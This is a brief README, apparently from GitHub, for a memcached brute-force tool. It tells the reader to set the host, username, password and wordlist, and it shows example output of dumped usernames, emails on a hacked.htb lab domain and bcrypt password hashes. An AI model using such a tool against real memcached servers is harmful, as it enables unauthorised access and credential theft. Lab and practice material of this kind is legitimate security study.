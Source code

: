 # memcached-brute

Edit the host ip user & password..

Use your own wordlist and fire! :\ 


example results


python mem.py


Matched: username
Min
fel
yunt

Matched: email
MinatoTW@hacked.htb
felamos@hacked.htb
yuntao@hacked.htb

Matched: password
$2a$10$5SAkMNF9fPNamlpWr.ikte0rHInGcU54tvazErpuwGPFePuI1DCJa
$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK
$2a$10$zXNCus.UXtiuJE5e6lsQGefnAH3zipl.FRNySz5C4RjitiwUoalS
